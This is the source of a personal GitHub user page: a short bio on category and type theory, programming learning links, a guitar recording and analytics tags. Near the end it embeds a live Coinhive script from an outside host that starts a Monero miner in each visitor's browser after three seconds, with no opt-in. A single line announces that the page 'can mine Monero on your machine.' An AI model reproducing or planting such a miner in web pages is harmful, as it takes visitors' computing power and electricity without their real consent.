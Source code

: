 Welcome to the user site of [github/bohadi](https://github.com/bohadi).<br>
Feel free to look around.

I am interested in engineering effective software<br>
via application of category theory and type theory.

<!--
compilers, blockchain, gpgpu

also AI/ML, genomics, 3d games
-->

<!--
contact me

bohadi@users.noreply.github.com
-->

helpful learning resources:<br>
[ParCon](http://chimera.labs.oreilly.com/books/1230000000929/index.html)<br>
[PFPL](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
[CTFP](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[oplss17](https://www.cs.uoregon.edu/research/summerschool/summer17/topics.php)<br>
[ncatlabwiki](https://ncatlab.org/nlab/show/HomePage)<br>
[HoTT](https://homotopytypetheory.org/book/)<br>
[IToC](https://math.mit.edu/~sipser/book.html)<br>
[AOSA/ghc](http://www.aosabook.org/en/ghc.html)<br>
[archwiki](https://wiki.archlinux.org/)<br>
[r/haskell](http://www.reddit.com/r/haskell)<br>
[r/rust](http://www.reddit.com/r/rust)<br>
[TRPL](https://doc.rust-lang.org/stable/book/second-edition/)<br>


more nice links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[SEP/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>


I enjoy playing the guitar, here is a short recording.

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

<br>

Thank you for visiting.<br>
Finally, this page can mine Monero on your machine.<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);
</script>

<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
